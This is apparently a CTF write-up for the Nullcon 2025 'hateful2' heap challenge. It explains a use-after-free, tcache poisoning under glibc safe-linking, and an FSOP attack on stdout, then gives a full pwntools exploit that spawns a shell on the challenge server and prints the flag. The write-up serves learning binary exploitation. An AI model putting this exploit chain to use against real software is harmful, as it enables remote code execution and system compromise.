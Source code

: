 series of 2, first one was fmt and easier which i covered it up [here](https://github.com/4rsp/writeups/tree/main/Nullcon-2025/hateful)

this one is about heap...

Full Relro, pie & canary... and a dream 😉

```C
undefined8 main(EVP_PKEY_CTX *param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  logo();
  puts("\nWelcome to our improved service edition HATEFUL2!\n");
  puts(
      "[+] After we have receives positive feedback of all our customers\nwe updated our service to make it even easier for you to use! (but also because we saw sus behaivors)"
      );
  puts("\nTo access our service now just use the MENU!");
  do {
    menu();
    iVar1 = __isoc99_scanf("%i%*c",&local_14);
    if (iVar1 == 0) {
      getchar();
    }
    switch(local_14) {
    case 0:
      about_us();
      break;
    case 1:
      add_message();
      break;
    case 2:
      edit_message();
      break;
    case 3:
      view_message();
      break;
    case 4:
      remove_message();
      break;
    case 5:
      puts("GoodBye!");
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    default:
      puts("Invalid Option my Friend. Try Again!\n");
    }
  } while( true );
}
```

my beloved heap menu. about_us function gives us a free stack leak, don't forget to take it before we move on :)
> i didn't use it tho..

remove_message function frees an allocated memory but doesn't zero out the pointer... which gives us a sweet UAF

first, fill the tcache to get an allocation in unsortedbin to leak a libc addr

and we also need to leak mangled ptr to perform tcache poisioning due to safe-linking (glibc 2.36)

a few words for safe-linking:

- tcache next pointers are mangled
- de-mangled pointer least significant nibble MUST be 0x0

~~which is why we can't just overwrite saved_rip of main...~~ (nvm.. it was my bad, people on discord have done it apparently)
> also there isn't just saved_rip of main, you know..
  
carefully allocate a chunk somewhere near stdout file structure and do FSOP

im not going into details about fsop attack, i explained it in [here](https://github.com/4rsp/docs/blob/main/practice.tool/file.structs/README.md) and used the same path

here's the code that does all that with friendly comments :)

```python3
#!/usr/bin/env python3

from pwn import *
import time

'''
p = gdb.debug("./hateful2_patched", gdbscript="""
              b *main+303
    c
""")
'''
p = remote("52.59.124.14", 5022)
#p = process("./hateful2_patched")

def demangle(ptr):
    mid = ptr ^ (ptr >> 12)
    return mid ^ (mid >> 24)

def mangle(ptr, pos):
    return (pos >> 12) ^ ptr

def malloc(idx, size, data):
    time.sleep(0.1)
    p.sendline(b"1")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.sendlineafter(b"Size: ", size.encode('utf-8'))
    p.sendlineafter(b">> ", data)
    
def free(idx):
    time.sleep(0.1)
    p.sendline(b"4")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))

def view(idx):
    p.sendline(b"3")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.recvuntil(b"Message: ")
    return p.recvline().strip()

def edit(idx, data):
    time.sleep(0.5)
    p.sendline(b"2")
    p.sendlineafter(b"Index: ", idx.encode('utf-8'))
    p.sendlineafter(b">> ", data)

# get the stack leak from option 0
p.sendline(b"0")
p.recvuntil(b"up to ")
stack_leak = int(p.recv(15))
print(f"stack leak: {hex(stack_leak)}")
rip = stack_leak + 0x14
print(f"saved_rip: {hex(rip)}")

# get an allocation on unsortedbin
# and leak the libc addr

for i in range(9):
    malloc(f"{i+4}", "240", b"")
    print(".")

for l in range(8):
    free(f"{l+4}")

libc_leak = u64(view("11").ljust(8, b"\x00"))
libc_base = libc_leak - 0x1d2cc0
stdout = libc_base + 0x1d3760
print(f"libc base: {hex(libc_base)}")
print(f"stdout: {hex(stdout)}")
system = libc_base + 0x4c490

# we will use this malloc to store our fake wide_data struct (idx 4)
# size should be big enough to hold the struct
malloc("4", "300", b"C"*8)

# leak mangled ptr 
malloc("0", "400", b"aaaa")
malloc("1", "400", b"bbbb")
free("1")
free("0")
leak = u64(view("0").ljust(8, b"\x00"))
print(f"mangled ptr: {hex(leak)}")
print(f"demangled ptr: {hex(demangle(leak))}")

# tcache poisoning
edit("0", p64(mangle(stdout-16, demangle(leak))))
malloc("3", "400", b"")

# needed addresses for FSOP 
lock = libc_base + 0x1d4a10
wfile = libc_base + 0x1cf0a0
malloc_addr = demangle(leak) - 0x340 + 96
jmp_to = wfile - 0x38 + 0x18
print(f"lock: {hex(lock)}")
print(f"wfile_jumps: {hex(wfile)}")
print(f"idx 4 malloc at: {hex(malloc_addr)}")

# file structure
payload = b"A"*16 # padding to stdout
payload += b" /bin/sh" # _flags + 4-byte hole
payload += b"\x00"*88 # *_IO_read_ptr -> *_IO_save_end
payload += b"\x00"*8 # *_markers
payload += b"\x00"*8 # *_chain
payload += b"\x00"*4 # _fileno
payload += b"\x00"*4 # _flags2
payload += b"\xff"*8 # _old_offset
payload += b"\x00"*2 # _cur_coloumn
payload += b"\x00"*1 # _vtable_offset
payload += b"\x01"*1 + p32(0x00) # _shortbuf[1] + 4-byte hole
payload += p64(lock) # *_lock
payload += b"\xff"*8 # _offset
payload += b"\x00"*8 # *_codecvt
payload += p64(malloc_addr) # *_wide_data
payload += b"\x00"*8 # *_freeres_list
payload += b"\x00"*8 # *_freeres_buf
payload += b"\x00"*8 # *__pad5
payload += b"\xff"*4 # _mode
payload += b"\x00"*20 # _unused2[20]
payload += p64(jmp_to) # VTABLE

# write fake wide_data struct to the malloc at idx 4
payload2 = p64(0x08) + p64(0x02) + b"a"*8 + p64(0x00) + p64(malloc_addr+112) + b"b"*8 + p64(0x00) + p64(system) + b"c"*160 + p64(malloc_addr-48)
edit("4", payload2)

# overwrite the file structure
# and enjoy your shell :p
malloc("3", "400", payload)

p.interactive()
```

FLAG: ```ENO{W3_4R3_50RRY_4G41N_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}```
> saving it as a trophy i guess..

***4rsp is learning to pwn things...***
